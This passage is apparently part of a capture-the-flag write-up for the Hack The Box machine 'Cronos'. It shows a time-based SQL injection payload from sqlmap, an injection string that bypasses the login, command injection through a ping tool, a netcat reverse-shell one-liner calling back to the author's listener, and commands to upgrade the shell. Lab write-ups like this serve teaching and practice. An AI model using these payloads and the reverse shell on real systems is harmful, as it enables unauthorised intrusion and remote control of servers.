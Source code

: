 ```bash
    Payload: username=admin' AND (SELECT 4971 FROM (SELECT(SLEEP(5)))Edsz) AND 'MTmR'='MTmR&password=
---
[10:57:00] [INFO] the back-end DBMS is MySQL
[10:57:00] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
back-end DBMS: MySQL >= 5.0.12
[10:57:00] [INFO] fetched data logged to text files under '/home/alichtman/.sqlmap/output/admin.cronos.htb'

[*] ending @ 10:57:00 /2020-03-30/
```

So it looks like the username field is vulnerable to SQL injection. We can revisit the admin page and log in with an SQL injection. Putting `admin' or ''='` in the username field and hitting submit bypasses the login page.

We're now faced with a simple webpage with the heading "WebTool v0.1". It has a simple selector where you can run `ping` or `traceroute` commands. You can trivially gain command execution by changing the input to `;COMMAND` and hitting run. We can test this out with `;whoami` and seeing `www-data` as the output on the webpage. Let's see if we can pop a shell on this box!

## Reverse Shell

First, I run `$ nc -lvnp 8081` to start a listener on port `8081`.

Putting `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 8081 >/tmp/f` in the command box and hitting execute spawns a reverse shell that reaches out to my listener.

```bash
$ nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.13] 42892
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Upgrading Shell

To get a full tty, I run: 

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$
```
I also want full signal handling and tab-completion, so I background the reverse shell with Ctrl-Z and run the following commands to get some info about my terminal:

```bash
$ stty -a
speed 38400 baud; rows 26; columns 104; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>;
start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel
-iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho
-extproc

$ echo $TERM
xterm-256color
```
